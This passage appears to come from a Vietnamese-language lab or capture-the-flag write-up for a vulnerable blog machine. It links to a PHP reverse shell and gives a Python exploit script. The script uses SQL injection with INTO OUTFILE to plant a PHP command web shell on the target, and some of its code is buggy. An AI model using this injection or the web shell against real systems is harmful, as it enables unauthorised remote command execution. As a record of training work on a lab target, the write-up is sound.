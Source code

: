 Và từ đây mình có thể download file [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) thực hiện reverse shell.

# Code Exploit
```python
import requests
import sys

r = requests.Session()

target_url = "http://192.168.40.155/"

attacker_ip = "192.168.40.69"


def getAdmin(cookie):
    url = target_url+"admin/index.php"
    cookie = "PHPSESSID={}".format(cookie)
    header = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:67.0) Gecko/20100101 Firefox/67.0',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
            'Cookie': cookie}

    res = r.get(url, headers=header)
    if res.text.find("Administration of my Blog"):
        print("[+] Login Successful")
        rce(r,head)
    else:
        print("[-] Login Failed")
        sys.exit()

def rce(r,header):
    url = target_url+"admin/edit.php?id=-1%20union%20select%20\"<?php \",\"system($_GET[%27c%27])\",\";\",\" ?>\"%20into%20outfile%20\"/var/www/css/cmd.php\"%23"
    r.get(url, headers=header)
    shell_url = target_url + "css/cmd.php"
    request = r.get(shell_url)
    if request.text.find("Notice: Undefined index:"):
        print("[+] Shell uploaded at {}".format(shell_url))
    else:
        print("[-] Shell upload failed")
        sys.exit()

if __name__ == '__main__':
    cookie = ""
    getAdmin(cookie)
```

